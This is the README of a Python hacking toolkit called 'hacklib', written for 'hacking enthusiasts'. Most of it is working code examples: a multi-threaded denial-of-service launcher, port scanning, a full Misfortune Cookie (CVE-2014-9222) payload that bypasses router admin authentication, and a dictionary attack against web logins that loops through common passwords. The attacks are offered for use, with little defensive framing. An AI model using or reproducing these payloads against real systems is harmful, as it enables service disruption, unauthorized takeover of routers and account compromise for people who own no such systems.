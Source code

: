 # hacklib
![MIT License](https://img.shields.io/github/license/mashape/apistatus.svg)
[![Python 2.6|2.7](https://img.shields.io/badge/python-2.6|2.7-yellow.svg)](https://www.python.org/)
##### Toolkit for hacking enthusiasts using Python.
hacklib is a Python module for hacking enthusiasts. It is currently in its barebones stages.

#### Examples of Usage
-
Multi-threaded Denial of Service (DOS) Stress-Testing:
```python
import hacklib

dos = hacklib.DOSer()
dos.launch('http://yourwebsite.com', duration=30, threads=50)
```
-
Port Scanning:
```python
from hacklib import *

ps = PortScanner()
ps.scan(getIP('yourwebsite.com'))
# By default scans the first 1024 ports with 1 second timeout. Use ps.scan(IP, port_range=n, timeout=i) to change default

# After a scan, open ports are saved within ps for reference
if ps.portOpen(80):
    # Establish a TCP stream and sends a message
    send(getIP('yourwebsite.com'), 80, message='GET HTTP/1.1 \r\n')
```

Misfortune Cookie Exploit (CVE-2014-9222) using PortScanner:
```python
>>> import hacklib

# Discovery
>>> ps = hacklib.PortScanner()
>>> ps.scan('192.168.1.1', 81)
Port 80:
HTTP/1.1 404 Not Found
Content-Type: text/html
Transfer-Encoding: chunked
Server: RomPager/4.07 UPnP/1.0
EXT:
# The banner for port 80 shows us that the server uses RomPager 4.07. This version is exploitable.

# Exploitation
>>> payload = '''GET /HTTP/1.1
Host: 192.168.1.1
User-Agent: googlebot
Accept: text/html, application/xhtml+xml, application/xml; q=09, */*; q=0.8
Accept-Language: en-US, en; q=0.5
Accept-Encoding: gzip, deflate
Cookie: C107351277=BBBBBBBBBBBBBBBBBBBB\x00''' + '\r\n\r\n'
>>> hacklib.send('192.168.1.1', 80, payload)
# The cookie replaced the firmware's Assembly code for web authentication with a null bye.
# The router's admin page is now fully accessible from any web browser.
```
-
Universal Login for almost all HTTP/HTTPS form-based logins and HTTP Basic Authentication logins:

```python
import hacklib

ac = hacklib.AuthClient()
# AuthClient uses the mechanize module for form-based logins

# Attempts to login and return the HTML of the resulting page
htmldata = ac.login('http://yourwebsite.com/login', 'username', 'password')

# For form-based logins, returns HTML whether login works or not.
# Returns False if resulting page has the same URL as the login page
if htmldata and 'try again' not in htmldata.lower():
    print 'Login Success'

# Returns False if login fails using HTTP Basic Authentication
if htmldata:
    print 'Login Success'
```
Simple Dictionary Attack using AuthClient:
```python
import hacklib

ac = hacklib.AuthClient()
# Get the top 100 most common passwords
passwords = hacklib.topPasswords(100)

for p in passwords:
    htmldata = ac.login('http://yourwebsite.com/login', 'admin', p)
    if htmldata and 'welcome' in htmldata.lower():
        print 'Password is', p
        break
    # For HTTP Basic Authentication logins, simply use 'if htmldata:'
```
